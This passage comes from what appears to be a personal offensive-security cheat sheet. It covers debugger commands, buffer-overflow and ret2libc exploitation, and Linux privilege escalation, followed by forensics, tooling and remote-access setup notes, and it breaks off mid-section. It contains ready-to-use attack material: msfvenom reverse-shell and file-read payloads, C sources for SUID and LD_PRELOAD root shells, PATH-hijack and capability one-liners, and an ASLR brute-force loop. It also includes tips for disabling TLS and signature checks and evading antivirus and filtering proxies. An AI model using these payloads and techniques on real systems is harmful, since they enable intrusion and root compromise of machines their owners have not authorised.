      ?u <num>   # Number to human units
      ?p <vaddr>   # Virtual to Physical addr
      ?P <paddr>   # Physical to Virtual addr
      ?b64[-] <str> # String from/to base 64

      # Generate...
      ?s <f> <t> <s> # Sequence: from-to-step
      ?r <f> <t>     # Random number in range

      # Show...
      ?h <str>  # String hash
      ?l <str>  # String length
      ?a        # ASCII table

      # Visual/Panels view options
      e dbg.follow=true  # Follow IP on step
      e dbg.slow=true    # Verbose dumps
      e dbg.funcarg=true # Show func-call args

      # Visual/Panels view commands
      .    # Seek to PC or entrypoint
      V    # Visual view (from prompt)
      v    # Panels view (from prompt)
      V    # Graph view (from visual/panels)
      SPC  # Switch to Graph/Panels view
      !    # Switch to Visual/Panels view
      e    # Replace panel with command
      p/n  # Previous/Next mode
      _    # HUD view
      \    # User-friendly view
      d1   # Bit editor (from visual/panels)
      m    # Un/Select menu
      c    # Enable/disable cursor
      b    # Toggle breakpoint at cursor
      A    # Assemble+insert opcode at cursor
      g    # Seek to offset
      /    # Highlight
      G    # Seek to highlight
      n/N  # Seek to next/prev func/flag/hit
      1-9  # Follow jmp/call shortcut id
      u/U  # Undo/Redo seek
      x    # Show x/refs from/to data/code
      r    # Toggle call/jmp/lea hints
      s/S  # Step in/over (debug)
      :dc  # Debug continue
      i    # Insert hex
      &    # Toggle cache
    #+end_src
*** Control Instr-Ptr/Program-Counter
    - Execute after: ~rizin <binary/pid>~
      #+begin_src sh
        # Reopen (debug) with De Bruijn input
        ood $(?x- $(wopD* <len> ~[1])); dc

        # Find De Bruijn offset at point (IP)
        wopO `s`
        # Explicit EIP reg: wopO `dr eip`

        # Reopen (debug) to check the offset
        ood "$(?x- $(wopD* <offset> ~[1]))TEST"; dc; ?x- 0x$(?x+ $(dr PC))
        # TEST should appear; if TSET, try:
        e cfg.bigendian=1 # Change endianness
        e asm.arch=<arch> # See: e asm.arch=?
      #+end_src
    - Or use ~rz-gg~ for IP/PC control:
      #+begin_src sh
        # Generate De Bruijn string pattern
        rz-gg -P <len> -r  # Hex: remove -r

        # Identify offset at address:
        rz-gg -q 0x<addr>
        # Example:
        rz-gg -q 0x$(rz-gg -P 100 | tail -c-9)
        # Output: 96 |though wrong endianness
      #+end_src
*** Locate Jump / Gadget Address
    #+begin_src sh
      # Set memory search location
      e search.in=dbg.maps

      # Limit search results to 1
      e search.maxhits=1

      # Assemble and search by opcode
      /a jmp esp @( `dmm ~<bin>[0,1]` )

      # Get address respecting endianness
      ?x+ hit0_0

      # Find the De Bruijn offset until SP
      wopO 0x`px0 4 @r:SP`

      # Seek to first hit if necessary
      s/
    #+end_src
*** Memory Execution
    - Only possible if DEP/NX is disabled
    - Send, in the input string, the payload ~<IP-offset><SP-JMP><SP-offset><shcode>~
    - Limit the shellcode to buffer sizes:
      #+begin_src sh
        # Make a simple exec first
        msfvenom -p linux/x86/exec CMD='whoami' EXITFUNC=thread -f c -b "\x<bchar1>\x<bchar2>"
        # rz-gg also has an exec shellcode
        # If only exec works, use a bash wrap
        # CMD='bash -c \"<cmd>\"', and base64
        # (without -w 0) for file transfers

        # Fallback to try reading a file
        msfvenom -p linux/x86/read_file PATH=/etc/passwd EXITFUNC=thread -f c -b "\x<bchar1>\x<bchar2>"
        # Write hex payload to file with pipe
        # | sed -n 's/";\?//gp' | tr -d '\n'
        # To use as: <bin> $(printf $(cat p))

        # Move to a reverse shell if it works
        msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lip> LPORT=<lport> EXITFUNC=thread -f c -b "\x<bchars>"
        # Use the staged payload version if
        # the size surpasses the buffer limit
        linux/x86/shell/reverse_tcp
        # Try bind shell if it doesn't work

        # Fallback to socket-reuse payloads
        searchsploit -x 34060  # Or 47530
        # Maybe MS linux/x86/shell_find_port?

        # Encode custom payloads bchars:
        msfvenom -p generic/custom PAYLOADSTR="<payload>" EXITFUNC=thread -f c -b "\x<bchars>"
        # Or from file PAYLOADFILE=<file>
      #+end_src
    - Socket-reuse [[https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/][tutorial]]
*** Return to libc
    - Only feasible if PIE is disabled
    - Locate libc address:
      #+begin_src sh
        # Interpreter should be: ld-linux.so
        readelf -l <file> | grep interpreter
        # man ldd -> search for Security

        # Find the address
        ldd <file> | grep libc

        # Perform relocations & check missing
        ldd -r <file> | grep libc
      #+end_src
    - If ASLR is enabled, run ~ldd~ many times and note the number of altered bytes:
      #+begin_src sh
        # zsh - all possibilities for 3 bytes
        echo $[ 8 ** 3 ]
        # 512 -> 511 possibilities to fail

        # zsh - guesses to succeed worst case
        echo $[ 1 - (511.0/512) ** 3000 ]
      #+end_src
    - Get the offsets of ~system~, ~exit~ and ~sh~:
      #+begin_src sh
        # system and exit
        readelf -s <libc.so.6> | grep " system@\| exit@"

        # /bin/sh
        strings -a -t x <libc.so.6> | grep "/bin/"
        # /bin/sh is just a string, you can
        # even provide it as input to the bin
      #+end_src
    - Assemble the libc functions in rizin:
      #+begin_src sh
        # ?x+ outputs honoring the endianness
        ?x+ <libc-base> + <func-offset> | sed 's/../\\x&/g'
        # <func-offset>: system or exit or sh
        # Use any libc base if enabled ASLR
      #+end_src
    - Check for badchars
    - TODO Find how to encode+decode ~system~, ~exit~ and/or ~sh~ using ~rz-gg~
    - Overflow:
      #+begin_src sh
        # bash/zsh - their printf convert hex
        <file> "$(printf "%<offset-to-ip>s<hex-system-exit-sh>\n")"
        # ^Uses space padding, alter if bchar

        # If bash/zsh are not available
        <file> "$(perl -e 'print "A"x<offset-to-ip>,"<hex-system-exit-sh>","\n"')"
        # perl is an openssl dependency

        # If print doesn't accept \x use:
        <file> "$(perl -e 'print "A"x<offset-to-ip>,(pack "H*","<hex-system-exit-sh-no-\x>"),"\n"')"
        # pack expects hex like: 434241 (CBA)

        # bash/zsh - ASLR enabled bruteforce
        i=0; pay="$(printf "%<offset-to-ip>s<hex-system-exit-sh>\n")"; until <file> "$pay"; do echo -e "\033[1A\033[2KTry $((++i))"; done
        # TODO - Find a way for parallelizing
      #+end_src
*** TODO Return to PLT
    - Requires that ~system~ is used in the binary
    - It is similar to return to libc - [[https://www.ret2rop.com/2018/08/return-to-plt-got-to-bypass-aslr-remote.html][See]]
    - The only difference is that one needs to find the address of ~system~ in the binary address, which is the same on each execution (check the PLT with ~rz~)
    - Maybe the location in the PLT?
      #+begin_src sh
        objdump -R <file> | grep -i libc
      #+end_src
*** TODO More Advanced Techniques
    - [[https://www.ret2rop.com/2018/08/make-stack-executable-again.html][Making the stack writable again]]
    - [[https://www.ret2rop.com/2018/10/format-strings-got-overwrite-remote.html][Override GOT Table]]
    - [[https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html][Leaking unknown libc]]
    - [[https://www.ret2rop.com/2020/05/canary-pie-byte-bruteforce.html][Canary, NX and PIE bypass - ROP]]
    - Others: [[https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/][1]] | Bypassing ASLR: [[https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-i/][1]], [[https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-ii/][2]], [[https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-iii/][3]]

* Binaries
** Reading
*** grep
    #+begin_src sh
      # Look for a string related to a search
      grep --binary-files=text --context=100 '<search>' <bin>
      # -a -> --binary-files=text
      # --context/-C - Show <n> lines bef/aft
    #+end_src
*** strings
    #+begin_src sh
      # Show all strings in binary
      strings <bin>
    #+end_src
** Tracing
*** strace
    - Trace system calls:
      #+begin_src sh
        strace <bin>
      #+end_src
*** ltrace
    - Trace libraries and system calls:
      #+begin_src sh
        ltrace <bin>
        # Use -S for output similar to strace
      #+end_src

* Linux
** Kernel Exploits
*** Dirty COW - CVE-2016-5195
**** Kernels Affected
     - [[https://en.wikipedia.org/wiki/Dirty_COW][Reference]]
     - Range: 2.6.22 < 4.8.3, 4.7.9, 4.4.26
**** Effect
     - Modify files with root privileges
     - From adding root users to create SUID files (by modifying existing)
**** Patched Old Kernels
     |-------------------+------------------|
     |            Kernel | Distro           |
     |-------------------+------------------|
     |     3.2.0-113.155 | Ubuntu 12.04 LTS |
     |    3.13.0-100.147 | Ubuntu 14.04 LTS |
     |  3.16.36-1+deb8u2 | Debian 8         |
     |       4.4.0-45.66 | Ubuntu 16.04 LTS |
     |       4.8.0-26.28 | Ubuntu 16.10     |
     |   3.10.0-327.36.3 | RHEL 7, CentOS 7 |
     |    2.6.32-642.6.2 | RHEL 6, CentOS 6 |
     |        2.6.18-416 | RHEL 5, CentOS 5 |
     |      3.0.101-84.1 | SLES 11 SP4      |
     |   3.12.60-52.57.1 | SLES 12 GA LTSS  |
     | 3.12.62-60.64.8.2 | SLES 12 SP1      |
     |-------------------+------------------|
**** Working Exploits
     - 2.6.24-16 - EID 40839 (add root user)
       - Check the exploit for the gcc flags
       - [[https://github.com/dirtycow/dirtycow.github.io/issues/25#issuecomment-255852675][Make the exploit stable]]
     - [[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs][List of PoC]]
** ELF Vulnerabilities
*** Identification
    - Identify with [[https://github.com/slimm609/checksec.sh][checksec]]:
      #+begin_src sh
        find / \( -perm -4000 -o -perm -2000 \) -type f -exec /tmp/checksec --file={} \; 2>/dev/null | less -R -S
        # Use --listfile=<file> instead
        # --proc=<pid> and --proc-libs=<pid>
        # to analyze a running process or
        # --proc-all for all processes
      #+end_src
*** RPATH
    - The ELFs shall have RW-RPATH
    - Identify the RPATH and the name of the libraries:
      #+begin_src sh
        readelf -d /usr/bin/sudo | grep "NEEDED\|RPATH"

        # Or
        strace /usr/bin/sudo 2>&1 | grep -i "open\|access\|no such file"
      #+end_src
    - Check if the directory or existing-libraries are writable
    - Replace them (or create a new one) that spawns a shell with SUID
*** RUNPATH
    - The ELFs shall have RUNPATH
    - TODO regarding how to search it (try ~readelf -d~)
    - Libraries under RUNPATH are searched after ~LD_LIBRARY_PATH~, so this may allow the ~LD_PRELOAD~ trick to work
*** Stack Clash - CVE2017-1000379
    - The ELFs shall have PIC (use ~checksec~)
    - The target ELFs shall be owned by root and have the SUID bit
    - Follow the [[https://www.exploit-db.com/exploits/42275][instructions]] for compiling
    - Run the exploit:
      #+begin_src sh
        # It may "die" with some binaries
        ./pwn <os-num> <path-to-suid-pic-elf>
        # Try with those with longer paths
      #+end_src
    - [[https://blog.aquasec.com/bugs-gone-wild-container-stack-clash-and-cve-2017-1000253][More info]]
*** Environment Tampering
**** Identification
     - Check calls made by the SUID:
       #+begin_src sh
         strings /usr/bin/sudo | less
         # Relative calls don't have a path
         # Absolute calls have a path

         # Also check
         ldd /usr/bin/sudo
       #+end_src
**** Relative References
     - Tamper the PATH:
       #+begin_src sh
         export PATH=/tmp:$PATH

         # Create an evil executable with
         # the same name as the reference
         echo 'int main() { setgid(0); setuid(0); system("/bin/sh"); return 0; }' > /tmp/setresuid.c

         gcc /tmp/setresuid.c -o /tmp/setresuid
       #+end_src
     - Execute the binary
     - Check that the permissions are preserved
       #+begin_src sh
         /bin/bash -p
       #+end_src
**** Absolute References
     - Create a function:
       #+begin_src sh
         # It shall have the same name
         /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

         # Export the function
         export -f /usr/sbin/service
       #+end_src
     - Execute the binary
     - Check that the permissions are preserved
       #+begin_src sh
         /bin/bash -p
       #+end_src
** SUID Creation
*** Set SUID bit
    #+begin_src sh
      chmod a+s <file>
    #+end_src
*** ELF
    #+begin_src c
      #include <stdlib.h>
      #include <unistd.h>

      int main() {
        setgid(0);
        setuid(0);
        setegid(0);
        seteuid(0);
        system("/bin/sh");
        // Use exec if system uses rshell
        // execv("/bin/sh", NULL);
        // execl("/bin/sh", NULL);
        // execlp("/bin/sh", NULL);
        // execle("/bin/sh", NULL, NULL);
        // execvp("/bin/sh", NULL);
        // execve("/bin/sh", NULL, NULL);
        // execvP("/bin/sh", NULL, NULL);
        return 0;
      }
      // gcc -o suid suid.c
      // https://stackoverflow.com/a/20823413
    #+end_src
*** SO Library
**** LD_PRELOAD
     #+begin_src c
       #include <stdlib.h>
       #include <unistd.h>

       // In old systems use:
       // void _init() {

       void __attribute__ ((constructor)) my_init() {
         unsetenv("LD_PRELOAD");
         setgid(0);
         setuid(0);
         setegid(0);
         seteuid(0);
         system("/bin/sh");
         // Use exec if system uses rshell
         // execv("/bin/sh", NULL);
         // execl("/bin/sh", NULL);
         // execlp("/bin/sh", NULL);
         // execle("/bin/sh", NULL, NULL);
         // execvp("/bin/sh", NULL);
         // execve("/bin/sh", NULL, NULL);
         // execvP("/bin/sh", NULL, NULL);
       }
       // gcc -shared -fPIC -o suid.so suid.c
       // LD_PRELOAD=suid.so <binary>
     #+end_src
**** Missing library
     #+begin_src c
       #include <stdlib.h>

       // void _init() in old systems

       static void inject() __attribute__((constructor));

       void inject() {
           system("cp /bin/sh /tmp/sh && chmod a+s /tmp/sh && /tmp/sh -p");
           // See above for exec family
       }
       // gcc -shared -fPIC -o <lib>.so lib.c
     #+end_src
** Tool PrivEsc
*** GTFObins
    - [[https://gtfobins.github.io][Site]] - How to privesc with common tools
*** rvim
    - In addition to the gtfobins ways, you can use ~:diffpatch $(sh <&2 >&2)~ (play with double quotes) as reported [[https://github.com/vim/vim/issues/1543][here]] if ~vim~ was compiled without python nor lua support (maybe ~source~ also works)
** Capabilities
*** Info
    - [[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities][Examples of attack vectors with Caps]]
*** CAP_SETUID
**** Python
     #+begin_src sh
       python -c 'import os; os.setuid(0); os.system("/bin/bash");'
     #+end_src

* Forensics
** Windows
*** Registry Hives .dat files
    - Identify the content of a hive file with [[https://github.com/mkorman90/regipy][regipy]]:
      #+begin_src sh
        registry-parse-header <hive.dat>
      #+end_src
    - Recover and diff the hive changes:
      #+begin_src sh
        # Add -s <secondary-log> if found
        registry-transaction-logs NTUSER.DAT -p NTUSER.DAT.LOG -o recovered_NTUSER.dat

        registry-diff NTUSER.DAT recovered_NTUSER.dat
      #+end_src
    - Dump the hive as JSON and browse it:
      #+begin_src sh
        registry-dump NTUSER.DAT | jq -C . | less -R
      #+end_src
    - Run plugins to extract information:
      #+begin_src sh
        # Modest plugins from regipy
        # List them: registry-plugins-list
        registry-plugins-run UsrClass.dat -o out.json

        # Massive amount from RegRipper
        rip -a -r <hive.dat> > output.txt
      #+end_src
    - Flush transactional log with [[https://github.com/Silv3rHorn/4n6_misc/releases/][registryFlush]]
    - Automatically extract information from all hives and save it separately + flush transaction log:
      #+begin_src bat
        :: Place rip.exe in %TEMP%
        autoripy.exe %TEMP% -s C:\Windows\System32\config -m C:\Users -r %TEMP%\reports -c all --flush
      #+end_src
*** Internet Explorer .dat files
    - Dump the content using [[https://github.com/bauman/python-pasco][pasco]] (also check the [[https://sourceforge.net/projects/odessa/][odessa]] version)
      #+begin_src sh
        pasco <file.dat>

        # Recursively show all in subfolders
        for f in **/*.dat; do echo; pasco "$f"; echo "----"; done
      #+end_src
*** Emails
**** DBX
     - Extract all DBX files and recover its content:
       #+begin_src sh
         for f in *.dbx; do undbx --recover $f; done
       #+end_src
     - Convert [[https://unix.stackexchange.com/a/39247][EML files to MBOX]]:
       #+begin_src sh
         # formail is contained in procmail
         for f in *.eml; do formail -b < $f > "${f%.*}".mbox; done
       #+end_src
     - Open ~MBOX~ files in ~mutt~:
       #+begin_src sh
         cat *.mbox > all.mbox
         mutt -f all.mbox
         # Remove duplicates by pressing:
         #   D
         #   ~=
         # View attachments with: v
         # Extract attachments with: s
         #
         # To render HTML check: Tool section
       #+end_src
** TODO Linux
   - [[https://tho-le.medium.com/linux-forensics-some-useful-artifacts-74497dca1ab2][Read this article]]

* Steganography
** Steghide
   - [[https://github.com/StefanoDeVuono/steghide][Site]] - Detect/Hide data:
     #+begin_src sh
       # Detect
       steghide info <file>
     #+end_src
** StegSolve
   - [[https://github.com/Giotino/stegsolve][Site]] ([[https://github.com/Giotino/stegsolve/issues/2][bug]]) - [[http://www.caesum.com/handbook/Stegsolve.jar][Original]] - Image Analyzer:
     #+begin_src sh
       java -jar stegosolve.jar
       # -Dsun.java2d.uiScale=2.5 - HiDPI
       # -Dsun.java2d.dpiaware=false - HiDPI
       # GDK_SCALE=2 - HiDPI
     #+end_src

* Tricky Configuration
** VPN
*** NordVPN
    - Debian - add repo and install
      #+begin_src sh
        wget 'https://repo.nordvpn.com/deb/nordvpn/debian/pool/main/nordvpn-release_1.0.0_all.deb'

        dpkg -i nordvpn-release_1.0.0_all.deb

        apt update

        apt install nordvpn
        # Review nordvpnd.socket and service

        # Consider installing wireguard-tools
        # for using nordlynx wg technology

        usermod -aG nordvpn $USER

        # Reload groups for terminal
        sudo -v && exec sudo -u $USER -i
      #+end_src
    - Log in and whitelist
      #+begin_src sh
        # Continue from the sudo -u $USER -i

        # Consider using iptables-save here

        nordvpn login | awk '{print $NF}' | xargs firefox

        nordvpn account

        # Identify the networks to whitelist
        ip addr

        nordvpn whitelist add subnet <net>/<mask>

        # Only if wireguard-tools is installed
        nordvpn set technology nordlynx

        nordvpn set protocol <UDP/TCP>  # UDP

        nordvpn set autoconnect on <country> <city> # Specific servers is possible

        nordvpn connect [<country>] [<city>] #Tab

        nordvpn set killswitch on

        nordvpn status
      #+end_src
    - Disconnect and recover internet
      #+begin_src sh
        nordvpn disconnect

        # Consider using iptables-restore here
        iptables -F

        systemctl stop nordvpn.s{ocket,ervice}
      #+end_src
** Bruteforce / Fuzzing Ranking
   - *TLDR* Linux - Theoretically & not-benchmarked:
     #+begin_src text
         medusa > hydra <=> patator > wfuzz > ZAP Dirbuster > dirsearch > dirb >= gobuster* == ffuf* == feroxbuster
     #+end_src
     - ~<=>~ In some cases ~patator~ is the best
       - If the server supports ~keep-alive~
         - ~curl -H 'Connection: keep-alive'~
       - And the ~medusa~ and ~hydra~ modules don't reuse connections (like HTTP)
     - ~*~ Compile via ~gccgo~ for native threads
     - ~feroxbuster~ uses [[https://epi052.github.io/feroxbuster-docs/docs/configuration/limit-connections/#a-note-on-green-threads][green threads]]
     - In Windows it is a different story
       - In a quick test ~patator~ vs ~wfuzz~ vs ~ffuf~ performed in MSYS-MinGW64 the result was:
         #+begin_src text
             ffuf > wfuzz > patator
         #+end_src
         - Correspondingly ~ffuf~ was 2 times faster than ~wfuzz~ (3.5min vs 7min)
         - ~patator~ took 9min
       - This is due to the different implementation of ~fork~, ~clone~ & ~pthread~ found in Windows, as well as the task/thread scheduler
   - The most performant tool should be ~medusa~ ([[https://github.com/jmk-foofus/medusa/pull/53][fix]]) followed by ~hydra~ (ignoring protocol optimizations/features that might not be implemented in them)
   - These two tools are written in C, with the major difference being that ~medusa~ uses [[http://foofus.net/goons/jmk/medusa/medusa-compare.html][pthread vs fork]] in ~hydra~
   - This is multithreading v multiprocessing
   - ~pthread~ uses less memory
   - ~fork~ takes advantage of multi-CPU/cores
   - For I/O bound operations [[https://stackoverflow.com/a/3046201][use pthread]]
   - For high-level langs in a [[https://stackoverflow.com/a/55319297][CPU-bound situation]] it might be better to use multiprocessing as multiprocessing scheduling is managed by the OS whereas multithreading might be managed by the library (or [[https://stackoverflow.com/questions/3044580/multiprocessing-vs-threading-python#comment40131752_3046201][GIL]]), causing overhead - [[https://stackoverflow.com/questions/3044580/multiprocessing-vs-threading-python#comment3117218_3044626][ref]]
   - ~patator~ uses [[https://github.com/lanjelot/patator/blob/master/patator.py#L966][multiprocessing]] vs [[https://github.com/xmendez/wfuzz/blob/master/src/wfuzz/myqueues.py#L10][multithreading]] used by ~wfuzz~
   - ~wfuzz~ is prone to get killed by the OOMd
   - ~patator~ tries to reuse TCP connections for all modules and supports [[https://github.com/lanjelot/patator/blob/master/patator.py#L3806][HTTP2]]
   - ~medusa~ and ~hydra~ only reuse connections in specific modules (not HTTP, even if ~medusa~ [[https://github.com/jmk-foofus/medusa/blob/master/src/modsrc/http.c#L684][hardcodes keep-alive]]) - no HTTP2
   - Note that [[https://blog.g0tmi1k.com/dvwa/bruteforce-medium/#Why.is.Hydra.slower.than.Patator.][hydra could be slower than patator]] due to an unnecessary GET req
   - Regarding Python vs Go, [[https://www.doria.fi/handle/10024/181265][it appears]] to be that some Python libraries might be more performant than goroutines
   - Note that compiling Go programs with [[https://stackoverflow.com/a/25811505][gccgo]] [[https://meltware.com/2019/01/16/gccgo-benchmarks-2019.html][may]] implement [[https://stackoverflow.com/a/1739685][the goroutines as pthreads]]
     - Also referred in [[https://books.google.cz/books?id=scyH562VXZUC&pg=PA151&lpg=PA151&dq=%22gccgo%22+%22system%22+%22thread%22&ots=Mmw9xwqdZE&sig=ACfU3U2WP-fKA0uxL9BewxLhBb9kAgkcgg&hl=en#v=onepage&q=%22gccgo%22%20%22system%22%20%22thread%22&f=false][this book]]
     - Alternatively, set [[https://stackoverflow.com/a/14624788][GOMAXPROCS]] in the env
   - According to [[https://evabssi.com/evaluation-des-performances-doutils-de-bruteforce-durl/][this]], ~patator~ outperforms all the other high-level parallel tools
     - But the article doesn't say if coroutines have been placed in the same category as threads
     - And it doesn't say if Wfuzz PyCurl is [[https://wfuzz.readthedocs.io/en/latest/user/installation.html#installation-issues][correctly linked]]
** OWASP ZAP
*** Allow Weak SSL/TLS Algorithms
    - Either edit the ~java.security~ file
    - Or override it: ~/usr/local/bin/zaproxy~
      #+begin_src sh
        #!/bin/bash

        JAVA_TOOL_OPTIONS="-Djava.security.properties="<(echo "jdk.tls.disabledAlgorithms=") exec /usr/bin/zaproxy
      #+end_src
    - See also the [[https://www.zaproxy.org/faq/how-to-connect-to-an-https-site-that-reports-a-handshake-failure/][ZAP FAQ]]
*** HiDPI
    - ~/usr/local/bin/zaproxy~
      #+begin_src sh
        #!/bin/sh

        JAVA_TOOL_OPTIONS="-Dsun.java2d.uiScale=3.5" exec /usr/bin/zaproxy
      #+end_src
** MSYS for Windows
*** Download
    - Using MSYS might be the easiest way to get an unified linux-like environment in Windows
    - In fact, it can be successfully used to build native tools that are usually caught by the AV
    - Get it from [[https://www.msys2.org/][msys2.org]]
*** Proxy Setup / Bypass
    - If the system is using a proxy, use it:
      #+begin_src sh
        # Check the Windows Proxy Settings
        export http_proxy=http://<ip:port>
        export https_proxy=https://<ip:port>
        # PAC files require a local HTTP proxy
        # and both exports should be http://...
      #+end_src
    - If the proxy is filtering the content, consider bypassing it with a reverse tunnel
    - Now disable the SSL/TLS checks from pacman:
      #+begin_src sh
        nano /etc/pacman.conf
        # Uncomment a XferCommand and add a flag
        # to ignore SSL/TLS checks:
        #   -k                     -> curl
        #   --no-check-certificate -> wget

        # And change the main SigLevel to Never
      #+end_src
    - Initialize and populate pacman's keyring:
      #+begin_src sh
        pacman-key --init

        pacman-key --populate
      #+end_src
*** Python Cryptography / Rust Installation
    - Installing the ~cryptography~ library via ~pip~ is ridiculously difficult
    - There's the ~mingw-w64-x86_64-python-cryptography~ pkg, but it might be outdated
    - First install the following packages:
      #+begin_src sh
        pacman -S --disable-download-timeout mingw-w64-x86_64-gcc mingw-w64-x86_64-python mingw-w64-x86_64-python-pip mingw-w64-x86_64-python-wheel
      #+end_src
    - Create a generic python lib via symlink:
      #+begin_src sh
        ln -s /mingw64/lib/libpython3.*.dll.a /mingw64/lib/libpython3.dll.a
      #+end_src
    - Install Rust (mingw one doesn't work) - [[https://stackoverflow.com/a/47380501][ref]]:
      #+begin_src sh
        curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
      #+end_src
    - Customize the installation (opt 2) to use the following target: ~x86_64-pc-windows-gnu~
    - Continue with the installation
    - Create a ~config~ file in your cargo home:
      #+begin_src text
        %USERPROFILE%\.cargo\config
        ---------------------------
        [target.x86_64-pc-windows-gnu]
        linker = "C:\\msys64\\mingw64\\bin\\gcc.exe"
        ar = "C:\\msys64\\mingw64\\bin\\ar.exe"
      #+end_src
    - Open a MinGW x64 terminal and add the Rust bin to the PATH (don't worry about the exe):
      #+begin_src sh
        export PATH="/c/Users/$USERNAME/.cargo/bin:$PATH"
      #+end_src
    - Try to install cryptography:
      #+begin_src sh
        # You might want to try a venv first
        pip install --trusted-host pypi.org --trusted-host files.pythonhosted.org cryptography
        # Always try to install the dependencies
        # using pacman unless they are outdated
      #+end_src
    - I got stuck in some OpenSSL error due to missing libs (not available in pacman), try [[https://cryptography.io/en/latest/installation/#static-wheels][downloading/compiling them]] next time and exporting the ~OPENSSL_VERSION~ variable
** Embedded Python for Windows
   - If the machine doesn't have internet, create a socks connection with ~plink -D~
   - Make the OS use the socks proxy through the Internet Explorer LAN Configuration settings by only setting the Socks server option to 127.0.0.1 <port>
   - Send [[https://docs.python.org/using/windows.html#embedding-python][embedded python]] (since [[https://docs.python.org/3.5/using/windows.html#embedded-distribution][3.5]] - [[https://pythondev.readthedocs.io/platforms.html][Windows Vista minimum]]): [[https://www.python.org/downloads/windows/][download]] - and [[https://github.com/shunf4/proxychains-windows/releases][proxychains]]
   - Change the last line of the proxychains configuration to use the local socks server and port like the IE setting
   - Send [[https://pip.pypa.io/en/stable/installing/][pip]] by first downloading it to your machine and then sending it to the Windows one
   - Install pip by setting the trusted flags to bypass the [[https://www.listendata.com/2019/04/connection-error-ssl-certificate-failed.html][SSL errors]]:
     #+begin_src bat
       proxychains_win32_x86.exe -f proxychains.conf .\python.exe get-pip.py --trusted-host pypi.org --trusted-host files.pythonhosted.org
     #+end_src
   - Uncomment the ~import site~ in the ~python<ver>._nth~ file as mentioned [[https://stackoverflow.com/a/48906746][here]]
   - Then find ~pip~ in the Scripts folder but run it like:
     #+begin_src bat
       proxychains_win32_x86.exe -f proxychains.conf .\python.exe -m pip --trusted-host pypi.org --trusted-host files.pythonhosted.org install <package>
       :: pipenv won't work with embeddable
       :: https://github.com/pypa/pipenv/issues/4334#issuecomment-694715392
     #+end_src
   - Note that some debugging programs that import python libraries (like [[https://cx-freeze.readthedocs.io/en/latest/script.html][cxfreeze]]) won't work with embeddable python due to the fact that most of these libraries are inside the ~python<ver>.zip~, you may try to decompress it and place the libraries in the Lib folder
   - It is worth mentioning that some packages may perfectly work if these libraries are removed from the import, for example [[https://github.com/msuhanov/yarp][yarp]] (~autoripy~ dependency), which goes along if ~__version__~ is removed (though you won't be able to install it via the remote archive as this modification is needed)
   - But problems will exist for packages that depends on Microsoft Visual C++/SDK
** VNC
   - The only Linux client that allows scaling to become usable in a HiDPI screen is [[https://github.com/GNOME/vinagre][Vinagre]]
** RDP - Remote Desktop
*** Enable
    - Remote Desktop can only be enabled if the network currently connected is set as ~Private~
    - Enable it via PS ([[https://www.alphr.com/how-to-change-a-wi-fi-network-from-public-to-private-in-windows-10/][source]]):
      #+begin_src bat
        :: Open the shell as Admin

        :: Get the name of the current net
        Get-NetConnectionProfile

        :: Set is as Private
        Set-NetConnectionProfile -Name "<NetName>" -NetworkCategory Private
      #+end_src
*** RDP over Reverse SSH
    - Useful when there's a firewall that is not allowing inbound connections for RDP
    - Note that the following assumes that the ~ssh~ client tool is already installed on the firewalled machine
    - First, create a SSH server on your machine (use [[https://github.com/ginuerzh/gost][gost]]):
      #+begin_src sh
        # Non-std ssh port for extra security
        gost -L forward+ssh://:2222
      #+end_src
    - Use ~ssh~ in reverse tunnel mode:
      #+begin_src sh
        # Daemonize with -f once it works
        ssh -N -R 127.0.0.1:3389:127.0.0.1:3389 -p 2222 <server-ip>
       # Disable compression
       -o Compression=no
       # Enable compression
       -C
      #+end_src
*** Connect with XFreeRDP
    #+begin_src sh
      # Ctrl+Alt+Enter - Toggle fullscreen

      # If RDP8 proto is not available
      # use /rfx /codec-cache:rfx
      xfreerdp /log-level:FATAL /network:lan /dynamic-resolution -decorations -themes /gfx /codec-cache:gfx +gfx-small-cache +glyph-cache /sound /u:'<DOMAIN>\<user>' /v:<ip-host>:<port> +auto-reconnect +bitmap-cache +multitransport +window-drag
      # /drive:<name>,<path> - Mount local path
      # /p:'<pass>           - Optional password
      # -sec-tls             - No TLS (fix errors)
      # -sec-nla             - No NLA (fix errors)
      # /mic                 - Enable microphone

      # Scale for HiDPI display
      xfreerdp /log-level:FATAL /network:lan /scale:180 /scale-desktop:280 /scale-device:180 /dynamic-resolution -decorations -themes /gfx /codec-cache:gfx +gfx-small-cache +glyph-cache /sound /u:'<DOMAIN>\<user>' /v:<ip-host>:<port> +auto-reconnect +bitmap-cache +multitransport +window-drag
      # There are some flags to redirect the
      # local USBs and microphones
    #+end_src
** Record Screen
*** Integrated GPU
    - Note that frames will be lost if other high-computational processes (such as virtual machines) are using the CPU
    - Either preset ~veryfast~ with crf 38
    - Or preset ~superfast~ with crf 40
    - Consider adding ~-video_size <geometry>~
    - Try increasing the ~-probesize~ in case some magic happens
    - Full command:
      #+begin_src sh
        ffmpeg -hide_banner -loglevel warning -hwaccel auto -probesize 100M -draw_mouse 0 -f x11grab -i :0.0 -an -c:v libx264rgb -crf 40 -preset superfast -tune stillimage -threads 0 <file.mkv>
      #+end_src
*** Discrete GPU
    - Doesn't have the problem of the missing frames, though ~hashcat~ and other GPGPU tools will create issues
    - ~pvkrun~ may not be necessary or could be replaced with ~primusrun~
    - Full command:
      #+begin_src sh
        vblank_mode=0 optirun --no-xorg -b none -- pvkrun ffmpeg -hide_banner -loglevel warning -threads:v 2 -filter_threads 2 -thread_queue_size 4096 -vsync 0 -hwaccel cuvid -hwaccel_output_format cuda -probesize 100M -draw_mouse 0 -f x11grab -i :0.0 -an -c:v h264_nvenc -rc vbr -spatial-aq 1 -temporal-aq 1 -qmin 34 -qmax 51 -bufsize:v 32M -rc-lookahead:v 75 -b_adapt 0 -coder auto -tune hq "<file>-$(date '+%s').mkv"
      #+end_src
** Record Terminal
*** Extra
**** Compression
     - Create pipes to ~zstd~, example:
       #+begin_src sh
